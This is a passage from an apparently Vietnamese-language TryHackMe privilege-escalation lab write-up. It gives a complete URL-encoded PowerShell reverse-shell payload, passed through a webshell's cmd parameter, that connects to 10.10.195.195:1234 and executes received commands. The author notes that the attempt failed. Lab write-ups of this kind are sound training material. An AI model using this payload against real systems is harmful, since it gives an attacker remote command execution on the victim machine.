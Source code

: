 Thêm vào url:

    ?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.195.195%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image27.png?raw=true)

→ không được

Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.































